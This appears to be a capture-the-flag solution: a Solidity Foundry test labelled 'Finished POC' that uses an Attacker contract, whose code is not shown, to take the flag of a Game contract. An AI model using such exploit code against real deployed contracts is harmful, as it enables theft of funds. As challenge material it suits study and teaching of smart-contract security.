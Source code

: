 ### Finished POC


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../lib/forge-std/src/Test.sol";
import "../src/Game.sol";
import "../src/Attacker.sol";

contract Hack is Test {
    Game game;

    address bigBoss = makeAddr("bigBoss");
    address hacker = makeAddr("hacker");
    address hacker2 = makeAddr("hacker2");
    uint blockGasLimit = 120000;

    function setUp() public {
        //Deal some money to everyone
        vm.deal(bigBoss, 1 ether);
        vm.deal(hacker, 1 ether);

        vm.startPrank(bigBoss);
        //Deploy the game contract
        game = new Game();
        vm.stopPrank();
    }

    function test_attack() public {
        vm.startPrank(hacker);

        Attacker atk = new Attacker(address(game));

        //get 9 mons
        atk.getEmAll();

        //fight to make the atk contract the flag holder
        atk.fightEmAll();

        vm.stopPrank();

        assertEq(game.flagHolder(), address(atk));
    }
}
```